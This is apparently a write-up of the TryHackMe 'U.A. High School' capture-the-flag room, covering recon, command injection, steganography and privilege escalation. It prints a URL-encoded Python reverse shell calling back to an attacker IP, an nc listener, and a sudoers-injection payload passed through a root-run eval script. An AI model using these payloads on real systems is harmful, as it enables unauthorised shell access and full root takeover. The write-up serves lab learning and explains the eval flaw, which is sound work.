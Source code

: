 # TryHackMe-U.A.-High-School-
[![Solved](https://img.shields.io/badge/Solved%20By-Jull3Hax0r-blue?style=flat-square&logo=gnu-bash)](https://tryhackme.com/p/Jull3)
[![TryHackMe Room](https://img.shields.io/badge/TryHackMe-Chill%20Hack-success?style=flat-square&logo=tryhackme)](https://tryhackme.com/room/yueiua)
# 🦸‍♂️ TryHackMe: U.A. Superhero Academy – Writeup
Category: Shell/Enumeration/Priv-Esc
Difficulty: Beginner → Intermediate
Target IP: MACHINE_IP

> **Join us in the mission to protect the digital world of superheroes!**  
> U.A., the most renowned Superhero Academy, is looking for a superhero to test the security of our new site.  
> Our site is a reflection of our school values, designed by our engineers with incredible Quirks.  
> We have gone to great lengths to create a secure platform that reflects the exceptional education of U.A.

---

## 🛰️ Target

**IP:** `<MACHINE_IP>`

---

## 🔍 Initial Recon

**Nmap:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-18 11:16 CEST
Nmap scan report for 10.10.16.154
Host is up (0.035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

---

## 🕵️ Web Enumeration & Exploitation

After enumeration, I found `/assets/index.php` vulnerable to **command injection**!

```
http://<MACHINE_IP>/assets/index.php?cmd=whoami
```
> The response is base64-encoded:  
> `d3d3LWRhdGEK` → `www-data`

---

## 🐚 Getting a Shell

I started a listener:
```
nc -lvnp 4444
```

Then sent a **URL-encoded Python reverse shell**:
```
http://<MACHINE_IP>/assets/index.php?cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.21.132.240%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

*Shell received as* **www-data!**

---

## 🗝️ Loot & Lateral Movement

In `/var/www/Hidden_Content/passphrase.txt` I found:
```
QWxsbWlXXXXXXXXXXXXFdmVyISEhCg==
```
Decoded from base64:  
**XXXXXXXXXXXXXX** (Saved for later...)

In `/var/html/assets/images/` I found suspicious images.  
**oneforall.jpg** was corrupted; changing the extension wasn’t enough.

**Fixed the header** using:
```
printf '\xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01' | dd of=oneforall.jpg bs=1 count=12 conv=notrunc
```
<img src="https://jull3.se/extimg/school/oneforall.jpg" alt="oneforall.jpg">

Then extracted hidden data:
```
steghide extract -sf oneforall.jpg
```
As a passphrase I used what was in the file /var/www/Hidden_Content/passphrase.txt

<img src="https://jull3.se/extimg/school/steg.png" alt="steg.png">

Got `creds.txt`:
```
Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:
deku:OneXXxXXXXXXXXXXXonXXXX1/A   
```

Now I could **switch user** to `deku`!

<img src="https://jull3.se/extimg/school/deku.png" alt="deku.png">
---

## ⚡ Privilege Escalation

Check sudo privileges:
```
deku@myheroacademia:~$ sudo -l
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh
```

Inspected the script:
```bash
#!/bin/bash
echo "Hello, Welcome to the Report Form"
echo "This is a way to report various problems"
echo "   Developed by the Technical Department of U.A."
echo "Enter your feedback:"
read feedback

if [[ "$feedback" != *"\"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"
    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input."
fi
```

---

### 🛡️ Why feedback.sh Allows Privilege Escalation

The `feedback.sh` script is extremely dangerous from a security perspective because it executes as **root** but allows any user (in this case, `deku`) to supply arbitrary feedback text. This input is then passed directly to `eval`, which interprets and runs the input as shell code:

```bash
eval "echo $feedback"
```

Additionally, the script appends the feedback to a log file as root:

```bash
echo "$feedback" >> /var/log/feedback.txt
```

This combination means that if you can bypass or avoid the blacklist (or if your command does not contain any blacklisted characters), you can inject a payload that performs *any action as root*, such as modifying system files, adding users, or changing sudoers.

**In this challenge, I simply injected:**
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```
This line, when executed as root, grants `deku` passwordless sudo privileges for all commands.

**Result:**  
Afterwards, I could run `sudo /bin/bash` as `deku` and instantly become root.

**This is a textbook example of the dangers of using `eval` with user input and running scripts with elevated privileges.** Never trust user input, especially as root!

---

After entering the payload:
```
deku ALL=NOPASSWD: ALL >> /etc/sudoers
```

I could then do:
```
sudo /bin/bash
```
Boom – **root shell**!

<img src="https://jull3.se/extimg/school/root.png" alt="root.png">

---

## 🏆 Root Flag

```
cat /root/root.txt
```
```
THM{XXXXXXXXXXXXXXXXX}
```

---

*Mission complete! UA is now more secure, and I am the Number 1 Hero!*

(Insert screenshot links here if you want!)

---
